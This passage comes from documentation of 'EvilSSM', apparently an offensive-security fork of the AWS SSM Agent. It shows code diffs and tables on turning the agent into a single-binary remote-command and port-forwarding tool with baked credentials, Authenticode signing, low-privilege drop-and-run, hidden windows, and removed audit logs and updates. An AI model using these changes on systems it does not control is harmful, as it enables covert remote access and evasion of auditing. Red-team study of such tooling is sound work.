 hardwareHash[ipAddressID], _ = primaryIpInfo()
 hardwareHash["macaddr-info"], _ = macAddrInfo()
```

### 7. Agent self-update is removed

The document plugin and background updater are removed. The updater executable
is also absent from the single-binary build shown in change 3.

```diff
# agent/framework/processor/executer/plugin/plugin.go:215-218
-updateAgentPluginName := updatessmagent.Name()
-workerPlugins[updateAgentPluginName] = UpdateAgentFactory{}
+// aws:updateSsmAgent disabled for this build to prevent client-side updater execution.
+// updateAgentPluginName := updatessmagent.Name()
+// workerPlugins[updateAgentPluginName] = UpdateAgentFactory{}

# core/app/agent.go
-selfupdate     selfupdate.ISelfUpdate
-selfupdate:     selfupdate.NewSelfUpdater(context),
-agent.selfupdate.Start()
-agent.selfupdate.Stop()
```

### 8. A new controller wraps configuration and operation

`evilssm-controller.py` has no AWS counterpart. Its source is organized as:


| Lines            | Added behavior                                                                                             |
| ---------------- | ---------------------------------------------------------------------------------------------------------- |
| `19-86`          | Rewrite the baked activation ID/code and region in `core/agent_parser.go`; optional plaintext mode.        |
| `89-115,233-262` | Map platform/architecture choices to Make targets and compile them.                                        |
| `117-230`        | Generate a temporary code-signing certificate or load a PFX, then sign Windows output with `osslsigncode`. |
| `265-301`        | Submit an SSM Run Command and poll for its result.                                                         |
| `304-343`        | Start and clean up multiple SSM port-forwarding sessions.                                                  |
| `346-404`        | Define the `bake`, `compile`, `runcmd`, and `portfwd` CLI.                                                 |


The new subcommands dispatch to the added controller functions:

```python
bake.set_defaults(func=cmd_bake)
comp.set_defaults(func=cmd_compile)
run.set_defaults(func=cmd_runcmd)
pf.set_defaults(func=cmd_portfwd)
```

## Reproducing an exact file diff

From the EvilSSM repository root, replace `PATH` with any modified file above:

```bash
diff -u \
  <(git -C amazon-ssm-agent show 61d87901c7abf20ce052b07e7bd6407d6248cd35:PATH) \
  PATH
```

## OFFSEC CONSTRAINTS SIMPLIFIED

These changes matter operationally beyond their raw diff size:


| Original SSM Agent constraint                                                                                 | EvilSSM simplification                                                                                                      | Practical effect / trade-off                                                                                                            |
| ------------------------------------------------------------------------------------------------------------- | --------------------------------------------------------------------------------------------------------------------------- | --------------------------------------------------------------------------------------------------------------------------------------- |
| Privileged install, state, and log paths normally expect root/administrator access.                           | Uses `/dev/shm/awsssmcache/` or the executable directory; skips root ownership and administrator/SYSTEM ACL enforcement.    | Enables drop-and-run execution from a low-privilege context. Local state has weaker protection, and `/dev/shm` state is lost on reboot. |
| Session Manager normally creates or switches to `ssm-user`.                                                   | Runs sessions as the account that launched the agent.                                                                       | Avoids user creation, password reset, and account-management artifacts; command privilege is exactly the launcher's privilege.          |
| The normal agent suite creates multiple executables, child processes, and IPC state.                          | Runs agent, document, and session workers as goroutines in one binary.                                                      | Reduces file/process-tree surface and deployment dependencies, but removes process isolation and increases shared failure scope.        |
| Startup registration is an explicit workflow with identity selection and extra registration state.            | Restricts identity to `OnPrem`, bakes activation values, forces registration, and continues directly into callback.         | Produces an immediate first-run callback with fewer setup steps. Reversed strings are recoverable credentials, not encryption.          |
| Bookkeeping, audit, rolling logs, updater files, and hardware fingerprinting create persistent host evidence. | Skips bookkeeping/audit directories, removes default rolling logs, disables updates, and removes most WMI hardware queries. | Reduces disk and service-query artifacts, but also removes useful diagnostics, auditability, and automatic patching.                    |
| Windows console and child PowerShell windows can be visible to an interactive user.                           | Links the main binary as `windowsgui` and applies `HideWindow`/`CREATE_NO_WINDOW` to children.                              | Suppresses obvious console windows without changing the underlying process visibility to security tooling.                              |
| WinPTY and other worker paths assume an installed Program Files layout.                                       | Resolves WinPTY, config, workers, plugins, and session files relative to the executable.                                    | Makes the package relocatable and avoids a formal installation footprint. Required companion DLL/binaries still need to be present.     |
| Building, credential baking, signing, command execution, and port forwarding are separate manual workflows.   | Adds one controller with `bake`, `compile`, `runcmd`, and `portfwd` commands plus optional Authenticode signing.            | Reduces operator setup and makes builds repeatable; it does not change AWS-side authorization or network requirements.                  |


## MISC

### Goroutines and Single Binary

**Original SSM**



**EvilSSM**



- Original SSM launches the standalone `ssm-document-worker` executable with `proc.StartProcess`.
- EvilSSM redirects that launch to `runDocumentWorker` in a goroutine inside the same process.
- Both retain the `DocumentState`, file-IPC, and plugin-execution pipeline.

#### First: what the document worker does not do

- `ssm-document-worker` does **not** retrieve documents from AWS.
- The agent receives, parses, and submits the document first:

```go
// amazon-ssm-agent/agent/messageservice/interactor/mdsinteractor/mdsinteractor.go:574-590; mgsinteractor/mgsinteractor.go:403-438
messages, err := mds.service.GetMessages(log, mds.config.InstanceID)
for _, msg := range messages.Messages {
    mds.processMessage(msg)
}

docState, err := agentMessage.ParseAgentMessage(
    mgs.context, commandOrchestrationRootDir, mgs.agentConfig.InstanceID)
errorCode := mgs.messageHandler.Submit(docState)
```

- The document worker receives that prepared `DocumentState` over local IPC and executes its plugins.

#### Original SSM

- **Build:** compiles `worker/main.go` into a separate `ssm-document-worker` executable.

```makefile
# amazon-ssm-agent/makefile:139-140
$(GO_BUILD) -o $(GO_SPACE)/bin/$(GOOS)_$(GOARCH)/ssm-document-worker$(EXE_EXT) -v \
    agent/framework/processor/executer/outofproc/worker/main.go
```

- **Worker selection and process launch:** uses `proc.StartProcess` by default, selects the document worker for non-session tasks, and passes the document ID as its argument.

```go
// amazon-ssm-agent/agent/framework/processor/executer/outofproc/master.go:75-77,247-267 (abridged)
var processCreator = func(name string, argv []string) (proc.OSProcess, error) {
    return proc.StartProcess(name, argv)
}

func (e *OutOfProcExecuter) startNewWorkerProcess(
    stopTimer chan bool,
    documentID string,
    ipc filewatcherbasedipc.IPCChannel,
) error {
    log := e.ctx.Log()
    var workerName string
    if e.docState.DocumentType == contracts.StartSession {
        workerName = appconfig.DefaultSessionWorker
    } else {
        workerName = appconfig.DefaultDocumentWorker
    }

    var process proc.OSProcess
    var err error
    if process, err = processCreator(workerName, []string{documentID}); err != nil {
        ipc.Destroy()
        return err
    }
    log.Debugf("successfully launched new process: %v", process.Pid())
}
```

- **Worker startup and document execution:** opens the worker side of IPC, registers plugins, and supplies `RunPlugins` to the messaging backend.

```go
// amazon-ssm-agent/agent/framework/processor/executer/outofproc/worker/main.go:30-38,53-97 (abridged)
var pluginRunner = func(context context.T, docState contracts.DocumentState,
    resChan chan contracts.PluginResult, cancelFlag task.CancelFlag) {
    runpluginutil.RunPlugins(context, docState.InstancePluginsInformation,
        docState.IOConfig, docState.UpstreamServiceName,
        runpluginutil.SSMPluginRegistry, resChan, cancelFlag)
    close(resChan)
}

cfg, agentIdentity, channelName, err := proc.InitializeWorkerDependencies(logger, os.Args)
ipc, err, _ := filewatcherbasedipc.CreateFileWatcherChannel(
    logger, agentIdentity, filewatcherbasedipc.ModeWorker, channelName, true)
runpluginutil.SSMPluginRegistry = plugin.RegisteredWorkerPlugins(ctx)
pipeline := messaging.NewWorkerBackend(ctx, pluginRunner)
err = messaging.Messaging(logger, ipc, pipeline, stopTimer)
```

- **Plugin and shell execution:** the shared runner calls each plugin; the run-script plugin writes the requested commands to a script and starts the platform shell.

```go
// amazon-ssm-agent/agent/framework/runpluginutil/runpluginutil.go:395-407; agent/plugins/runscript/runscript.go:180-198 (abridged)
output.Init(pluginName, stepName)
plugin.Execute(config, cancelFlag, output)

scriptPath := filepath.Join(orchestrationDir, p.ScriptName)
pluginutil.CreateScriptFile(log, scriptPath, pluginInput.RunCommand, p.ByteOrderMark)
commandName := p.ShellCommand
commandArguments := append(p.ShellArguments, scriptPath)
exitCode, err := p.CommandExecuter.NewExecute(
    p.Context, workingDir, output.GetStdoutWriter(), output.GetStderrWriter(),
    cancelFlag, executionTimeout, commandName, commandArguments, pluginInput.Environment)
```

- **Result return:** the worker creates `reply`/`complete` datagrams. Worker-side `Messaging` passes them to `ipc.Send`; agent-side `Messaging` reads them and passes them to its backend. The file transport writes each datagram under a temporary filename and renames it into the watched directory.

```go
// amazon-ssm-agent/agent/framework/processor/executer/outofproc/messaging/backend.go:206-228; messaging/messaging.go:146-173; common/filewatcherbasedipc/filewatcherchannel.go:173-184 (abridged)
replyMessage, _ := CreateDatagram(MessageTypeReply, docResult)
p.input <- replyMessage

completeMessage, _ := CreateDatagram(MessageTypeComplete, docResult)
p.input <- completeMessage

case datagram, more := <-backend.Accept():
    err = ipc.Send(datagram)
case datagram, more := <-ipc.GetMessage():
    err = backend.Process(datagram)

sequenceID := fmt.Sprintf("%v-%s-%03d", ch.mode, ch.startTime, ch.counter)
pathname := filepath.Join(ch.path, sequenceID)
tmp_pathname := filepath.Join(ch.tmpPath, sequenceID)
ioutil.WriteFile(tmp_pathname, []byte(rawJson), defaultFileWriteMode)
os.Rename(tmp_pathname, pathname)
```

#### EvilSSM

- **No worker executable is embedded or launched.** The worker's Go code is compiled into the single agent binary.
- **Worker selection and goroutine launch:** the process-creator hook maps the requested worker name to a Go function. `InProcProcess` starts that function as a goroutine while satisfying the existing `OSProcess` interface.

```go
// agent/inproc/inproc.go:93-100; agent/inproc/process.go:18-43
func inProcProcessCreator(name string, argv []string) (proc.OSProcess, error) {
    channelName := argv[0]
    if name == appconfig.DefaultSessionWorker {
        return newInProcProcess(func() { runSessionWorker(channelName) }), nil
    }
    return newInProcProcess(func() { runDocumentWorker(channelName) }), nil
}

var _ proc.OSProcess = (*InProcProcess)(nil)

func newInProcProcess(workerFunc func()) *InProcProcess {
    p := &InProcProcess{
        pid: os.Getpid(), startTime: time.Now().UTC(), done: make(chan struct{}),
    }
    go func() {
        defer p.once.Do(func() { close(p.done) })
        workerFunc()
    }()
    return p
}
```

- **In-process document worker:** performs the same IPC/backend/plugin setup as the original worker entrypoint.

```go
// agent/inproc/inproc.go:151-190 (abridged)
func runDocumentWorker(channelName string) {
    cfg, agentIdentity, _, err := proc.InitializeWorkerDependencies(logger, []string{channelName})
    ipc, err, _ := filewatcherbasedipc.CreateFileWatcherChannel(
        workerLog, agentIdentity, filewatcherbasedipc.ModeWorker, channelName, true)
    registry := plugin.RegisteredWorkerPlugins(ctx)
    runner := func(context agentctx.T, docState contracts.DocumentState,
        resChan chan contracts.PluginResult, cancelFlag task.CancelFlag) {
        runpluginutil.RunPlugins(context, docState.InstancePluginsInformation,
            docState.IOConfig, docState.UpstreamServiceName, registry, resChan, cancelFlag)
        close(resChan)
    }
    pipeline := messaging.NewWorkerBackend(ctx, runner)
    err = messaging.Messaging(workerLog, ipc, pipeline, stopTimer)
}
```

- **Shared execution:** EvilSSM reuses the same `WorkerBackend`, `RunPlugins`, run-script, result-datagram, and file-IPC code shown above.
- **Bottom line:** Original SSM starts a separate `ssm-document-worker` process. EvilSSM calls the equivalent Go function in a goroutine inside `amazon-ssm-agent`.

